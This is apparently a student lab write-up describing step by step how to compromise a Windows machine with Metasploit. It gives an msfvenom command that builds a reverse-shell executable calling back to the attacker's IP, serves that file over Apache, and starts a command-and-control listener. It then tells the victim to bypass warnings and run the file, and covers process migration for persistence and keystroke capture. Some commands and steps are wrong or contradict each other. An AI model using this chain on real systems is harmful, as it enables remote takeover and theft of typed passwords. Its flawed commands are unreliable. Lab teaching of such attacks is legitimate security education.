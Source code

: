 # EX 6: Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![240485931-d9b9e488-6580-4969-a3d2-5061443c0ed1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/738403cb-ddf8-4e5f-af5b-50f6531673bc)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![240482360-12b58fda-5cec-4e47-872b-b838ef920d46](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/57c1fa09-ae80-401b-8422-41213b252aee)




copy the fun.exe into the apache /var/www/html folder
![240482762-37d7e507-5d47-4ddb-ba93-586f6d73a51b](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/379bf937-8d1d-47ca-9ca3-9dc95c1c0db5)


Start apache server
sudo systemctl apache2 start

![240482920-0d0224f9-d80c-42b9-a3ab-09b48da66a27](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/2a8aefe2-4668-467c-a3af-57a346f5d9da)



Check the status of apache2
![240483068-77516604-9c4f-4317-a188-c41de4625542](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/e9323521-d25e-4418-a86b-66c9d872a4dd)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![240483481-938f78c9-0e8a-42ef-847c-a7cee7393beb](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/08007393-8ae5-4095-a288-688b21b6654c)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![240483850-4cf82361-ac00-46ab-92a2-3f09592d98d5](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/a5afa68b-3991-4c94-a8d2-2f4c22bb656d)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![240484009-fee0700e-bafd-4e76-af72-f5ac23a5d6ba](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/6803b629-2f0b-46b6-a1b1-37333b5fa25e)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![240486096-b2d36ca1-64a2-4863-a648-4ef4a8727dd9](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/c379f00d-1be8-4a25-8342-25ff9208cb8d)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![240485311-85fb473c-59fe-4042-b163-552fddc735d1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/b245228d-be3b-418f-8a4d-f0aeb3277dd1)



keyscan_dump	Shows the keystrokes captured so far
![240485244-785ef849-9095-4065-b38a-54b544a0c440](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/bd229a9d-ec46-4590-a561-d81cca631f57)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
